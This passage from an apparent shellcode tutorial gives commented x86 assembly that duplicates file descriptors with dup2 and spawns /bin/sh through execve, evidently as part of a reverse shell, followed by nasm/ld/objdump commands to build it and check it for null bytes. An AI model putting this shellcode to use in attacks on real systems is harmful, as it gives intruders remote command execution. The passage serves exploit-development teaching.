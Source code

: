 ```nasm

dup:
  mov  al, 0x3f    ; sys_dup2 = 63 = 0x3f
  int  0x80        ; syscall (exec sys_dup2)
  dec  ecx         ; decrement counter
  jns  dup         ; as long as SF is not set -> jmp to dup

  ; spawn /bin/sh using execve
  ; int execve(const char *filename, char 
  ; *const argv[],char *const envp[]);
  mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
  inc  ecx         ; argv=0
  mov  edx, ecx    ; envp=0
  push edx         ; terminating NULL
  push 0x68732f2f	 ; "hs//"
  push 0x6e69622f	 ; "nib/"
  mov  ebx, esp    ; save pointer to filename
  int  0x80        ; syscall: exec sys_execve
```

### testing

Now, as in the first part, let's assemble it and check if it properly works and does not contain any null bytes:
```bash
nasm -f elf32 -o rev.o rev.asm
ld -m elf_i386 -o rev rev.o
objdump -M intel -d rev
```

![compile shellcode](./images/14/2021-10-16_13-53.png){width="80%"}       
